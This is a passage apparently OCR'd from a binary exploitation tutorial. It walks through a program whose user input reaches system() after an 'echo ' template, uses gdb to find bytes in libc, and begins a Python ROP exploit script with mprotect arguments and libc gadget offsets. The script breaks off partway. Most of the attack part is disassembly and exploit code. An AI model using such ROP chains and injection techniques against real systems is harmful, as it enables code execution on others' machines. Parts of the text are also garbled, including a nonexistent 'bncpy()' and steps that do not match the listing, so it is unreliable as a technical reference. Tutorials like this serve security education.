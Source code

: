 ```bash
0x40135a:    jmpq   *%rax
0x40135c:    add    %al,(%rax)
0x40135e:    add    %al,(%rax)
0x401360:    add    %al,(%rax)
```

It does the following:

1. First, it takes a copy of the template string and puts it at 0x401380.
2. Next, it calls `gets()` and stores the user input in 0x401500.
3. The user input is copied to 0x401385 (right after "echo ").
4. `system()`is called with the string in 0x401380 as its argument.
5. The first byte of user input is put in the `cl` register.
6. The program continues execution at `chat+49`.

```
   0x000000000040117e <+40>:    callq  0x401060 <__isoc99_scanf@plt>
   0x0000000000401183 <+45>:    movzbl -0x20(%rbp),%ecx
   0x0000000000401187 <+49>:    movsbw %cl,%ax
```

> Why the `nop`s? Look at the complete exploit code and see if you can understand why.

Again, we find the bytes we need in memory, and use `bncpy()`.


```bash
(gdb) find/1b 0x7ffff7de4000, +99999999999, 0xbf, 0x80
0x7ffff7e65228
```

#### Continue executing the program

After the program has been infected, the execution will continue at `main+15`

```
   0x0000000000401212 <+0>:     push   %rbp
   0x0000000000401213 <+1>:     mov    %rsp,%rbp
   0x0000000000401216 <+4>:     sub    $0x10,%rsp
   0x000000000040121a <+8>:     mov    %edi,-0x4(%rbp)
   0x000000000040121d <+11>:    mov    %rsi,-0x10(%rbp)
   0x0000000000401221 <+15>:    mov    $0x0,%eax
   0x0000000000401226 <+20>:    callq  0x401156 <chat>
   0x000000000040122b <+25>:    mov    $0x0,%eax
   0x0000000000401230 <+30>:    callq  0x4011d3 <net>
   0x0000000000401235 <+35>:    jmp    0x401221 <main+15>
```

#### Code for the complete exploit

```python
# r2l3_exploit.py
import struct

# value found with ldd
libc_base = 0x00007ffff7de4000

# fill buffer and overwrite saved frame pointer
pad = 56 * "a"

# mprotect() arguments
addr   = struct.pack("<Q", 0x401000)
length = struct.pack("<Q", 1)
prot   = struct.pack("<Q", 7)

# gadgets
raxto7  = struct.pack("<Q", libc_base + 0xb8a00)
raxpl3  = struct.pack("<Q", libc_base + 0xb8980)
poprdi  = struct.pack("<Q", libc_base + 0x23dd3)
```